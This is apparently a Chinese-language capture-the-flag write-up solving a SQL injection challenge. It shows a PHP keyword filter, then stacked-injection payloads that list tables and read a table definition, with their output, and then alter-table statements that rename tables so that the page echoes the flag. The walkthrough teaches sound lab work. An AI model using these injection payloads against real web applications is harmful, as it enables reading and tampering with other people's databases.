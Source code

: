 ```php
return preg_match("/select|update|delete|drop|insert|where|\./i", $inject);
```

由过滤了`update|delete|drop|insert`猜测可能存在堆叠注入，测试`inject=1;show tables;--+`：

```php
array(1) {
[0]=>
array(2) {
["id"]=>
string(1) "1"
["data"]=>
string(12) "Only red tea"
}
}
array(2) {
[0]=>
array(1) {
["Tables_in_supersqli"]=>
string(16) "1919810931114514"
}
[1]=>
array(1) {
["Tables_in_supersqli"]=>
string(5) "words"
}
}
```

尝试查询创建表(1919810931114514)的语句，得到表结构：

```php
# ?inject=1';show create table `1919810931114514`;--+
array(1) {
[0]=>
array(2) {
["Table"]=>
string(16) "1919810931114514"
["Create Table"]=>
string(87) "CREATE TABLE `1919810931114514` (
`flag` text
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4"
}
}
```

#### alter table

无法直接查询flag，可以考虑通过修改表结构和表名从而使页面来查询回显flag。

```sql
# 给 1919810931114514 增加 id 字段 后更名为 words
alter table `1919810931114514` add(id int default 1);
alter table words rename xxx;
alter table `1919810931114514` rename words;#
```
